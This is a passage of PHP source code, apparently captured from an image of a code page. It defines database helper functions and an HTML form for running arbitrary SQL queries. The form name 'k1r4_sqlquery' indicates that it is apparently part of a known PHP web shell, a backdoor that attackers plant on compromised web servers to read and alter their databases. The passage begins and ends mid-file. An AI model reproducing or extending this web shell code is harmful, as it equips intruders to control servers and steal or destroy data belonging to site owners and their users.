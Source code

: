 }
}
if (!function_exists("mysql_smarterror"))
{
function mysql_smarterror($type,$sock)
{
 if ($sock) {$error = mysql_error($sock);}
 else {$error = mysql_error();}
 $error = htmlspecialchars($error);
 return $error;
}
}
if (!function_exists("mysql_query_form"))
{
function mysql_query_form()
{
 global $submit,$sql_act,$sql_query,$sql_query_result,$sql_confirm,$sql_query_error,$tbl_struct;
 if (($submit) and (!$sql_query_result) and ($sql_confirm)) {if (!$sql_query_error) {$sql_query_error = "Query was empty";} echo "&lt;b&gt;Error:&lt;/b&gt; &lt;br&gt;".$sql_query_error."&lt;br&gt;";}
 if ($sql_query_result or (!$sql_confirm)) {$sql_act = $sql_goto;}
 if ((!$submit) or ($sql_act))
 {
  echo "&lt;table border=0&gt;&lt;tr&gt;&lt;td&gt;&lt;form name=\"k1r4_sqlquery\" method=POST&gt;&lt;b&gt;"; if (($sql_query) and (!$submit)) {echo "Do you really want to";} else {echo "SQL-Query";} echo ":&lt;/b&gt;&lt;br&gt;&lt;br&gt;&lt;textarea name=sql_query cols=100 rows=10&gt;".htmlspecialchars($sql_query)."&lt;/textarea&gt;&lt;br&gt;&lt;br&gt;&lt;input type=hidden name=act value=sql&gt;&lt;input type=hidden name=sql_act value=query&gt;&lt;input type=hidden name=sql_tbl value=\"".htmlspecialchars($sql_tbl)."\"&gt;&lt;input type=hidden name=submit value=\"1\"&gt;&lt;input type=hidden name=\"sql_goto\" value=\"".htmlspecialchars($sql_goto)."\"&gt;&lt;input type=submit name=sql_confirm value=\"Yes\"&gt;&nbsp;&lt;input type=submit value=\"No\"&gt;&lt;/form&gt;&lt;/td&gt;";
  if ($tbl_struct)
  {
   echo "&lt;td valign=\"top\"&gt;&lt;b&gt;Fields:&lt;/b&gt;&lt;br&gt;";
   foreach ($tbl_struct as $field) {$name = $field["Field"]; echo " &lt;a href=\"#\" onclick=\"document.k1r4_sqlquery.sql_query.value+='`".$name."`';\"&gt;&lt;b&gt;".$name."&lt;/b&gt;&lt;/a&gt;&lt;br&gt;";}
   echo "&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;";
  }
 }
 if ($sql_query_result or (!$sql_confirm)) {$sql_query = $sql_last_query;}
}
}
if (!function_exists("mysql_create_db"))
{
function mysql_create_db($db,$sock="")
{
 $sql = "CREATE DATABASE `".addslashes($db)."`;";
 if ($sock) {return mysql_query($sql,$sock);}
 else {return mysql_query($sql);}
}
}
if (!function_exists("mysql_query_parse"))
{
function mysql_query_parse($query)
{
 $query = trim($query);
 $arr = explode (" ",$query);
 /*array array()
 {
  "METHOD"=&gt;array(output_type),
  "METHOD1"...
  ...
 }
 if output_type == 0, no output,